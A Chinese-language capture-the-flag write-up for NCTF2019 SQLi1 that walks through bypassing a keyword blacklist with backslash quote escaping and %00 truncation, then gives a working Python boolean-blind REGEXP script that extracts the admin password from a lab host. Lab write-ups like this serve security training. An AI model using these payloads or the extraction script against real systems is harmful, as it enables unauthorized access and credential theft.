



# NCTF2019-SQLi1

启动靶机访问页面。



可以看到提示我们了登录界面的sql查询语句

```
sqlquery : select * from users where username='' and passwd=''
```

然后访问url/robots.txt，提示我们访问/hint.txt

发现提示信息和过滤的一堆关键字

```
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

这里有个提示信息，如果passwd的值等于admin的密码则登录成功，但是admin被过滤了，这里可以采用正则表达式来获取密码的值，确定获取密码的方式后确定注入点，我们可以对username中的第二个字符进行转义，使后面的' and passwd='成为username的内容。然后最后用%00代替#和--截断

sql语句就变成了

```
select * from users where username='\' and passwd='||passwd/**/regexp/**/"^yo";%00'
最后的单引号被截断了，可简化为
select * from users where username='\' and passwd='||passwd/**/regexp/**/"^yo"
同
select * from users where username='\' and passwd=' || passwd/**/regexp/**/"yo"
```

只要passwd能匹配，where条件查询就为真

先试试

```
username=\&passwd=||1;%00
```

发现如果查询成功存在回显。



这里响应包里会有一个

```
location: welcome.php
```

再试试

```
username=\&passwd=||0;%00
```

发现location: welcome.php没了，证明存在布尔盲注

这时我们就可以写python脚本了，通过regexp正则表达式盲注出密码

```
from urllib import parse

import requests
import time


url = 'http://2869a871-6f5d-4096-93f5-188f1b7be77b.node5.buuoj.cn:81'
str = 'abcdefghijklmnopqrstuvwxyz1234567890_{}-~ABCDEFGHIJKLMNOPQRSTUVWXYZ'
result = ''
for i in range(1,200):
    for char in str:
        data = {
            'username':'\\',
            'passwd':'||/**/passwd/**/regexp/**/\"^'+result+char+'\";'+parse.unquote('%00') 
            #也可以这样'passwd':'||/**/passwd/**/regexp/**/\"^'+result+char+'\";\x00'
        }
        r = requests.post(url, data=data)
        time.sleep(0.01)
        if 'welcome' in r.text:
            result += char
            print(result)
            break
        else:
            continue
```

注意这里的%00必须用parse.unquote('%00') 解释为NULL才能起截断作用，或者使用`\x00`（或者说 NULL 字符，十六进制表示的 0x00）

爆出密码

```
you_will_never_know7788990
```

获取到admin的密码后，随便输入一个用户名并使用这个密码登录即可拿到flag。



